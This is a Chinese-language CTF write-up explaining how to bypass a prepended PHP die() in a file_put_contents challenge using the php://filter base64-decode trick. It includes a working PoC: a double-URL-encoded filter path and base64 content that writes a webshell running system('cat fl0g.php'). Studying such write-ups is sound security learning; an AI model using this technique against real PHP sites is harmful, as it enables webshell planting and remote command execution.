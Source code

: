 回归正题

我们审一下这道题目的代码

相比上一道题这题增加了一个post参数，且会将传入的参数进行拼接后写入文件

```php
 $content = $_POST['content'];
 file_put_contents(urldecode($file), "<?php die('大佬别秀了');?>".$content);
```

这道题在`$content`和`$file`之间拼接了一个<?php die('大佬别秀了');?>，导致即使我们成功写入一句话，也执行不了

我们如何绕过这个die呢？

其实我们可以通过php://filter流的base64-decode方法来去除这个die

因为php在解码base64编码的时候会先将不属于base64中的字符去除，再进行转换，如下

```php
<?php
$_GET['txt'] = preg_replace('|[^a-z0-9A-Z+/]|s', '', $_GET['txt']);
base64_decode($_GET['txt']);
```

所以，我们可以使用 php://filter/write=convert.base64-decode 来首先对其解码。在解码的过程中，字符<、?、;、>、、(、) 、'空格等字符不符合base64编码的字符范围将被忽略，所以最终被解码的字符仅有“phpdie”和我们传入的其他字符。

`”phpdie“`一共6个字符，由于base64算法解码时是4个byte一组，所以给他增加2个“a”一共8个字符。这样，"phpdie"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。

同时由于会对传入的file进行url解码，所以需要对传入的file进行两次url编码

> warning!!!url编码需要连同英文字符一起进行转换，可以借助hackbar强制进行转换（找了很久）

poc:

```
原文：file=php://filter/write=convert.base64-decode/resource=shell.php

file=%25%37%30%25%36%38%25%37%30%25%33%61%25%32%66%25%32%66%25%36%36%25%36%39%25%36%63%25%37%34%25%36%35%25%37%32%25%32%66%25%37%37%25%37%32%25%36%39%25%37%34%25%36%35%25%33%64%25%36%33%25%36%66%25%36%65%25%37%36%25%36%35%25%37%32%25%37%34%25%32%65%25%36%32%25%36%31%25%37%33%25%36%35%25%33%36%25%33%34%25%32%64%25%36%34%25%36%35%25%36%33%25%36%66%25%36%34%25%36%35%25%32%66%25%37%32%25%36%35%25%37%33%25%36%66%25%37%35%25%37%32%25%36%33%25%36%35%25%33%64%25%37%33%25%36%38%25%36%35%25%36%63%25%36%63%25%32%65%25%37%30%25%36%38%25%37%30
```

```
原文：content=<?php system('cat fl0g.php');?>

content=aaPD9waHAgc3lzdGVtKCdjYXQgZmwwZy5waHAnKTs/Pg==
```

访问shell.php,得到flag

其实还可以通过其他编码来进行绕过如rot13

更多[file_put_content和死亡·杂糅代码之缘 - 先知社区](https://xz.aliyun.com/t/8163?time__1311=n4%2BxnD0Dc7GQ0%3DDCDgADlhjm57IKvq0Ivo%2BimK%3Dx#toc-3)
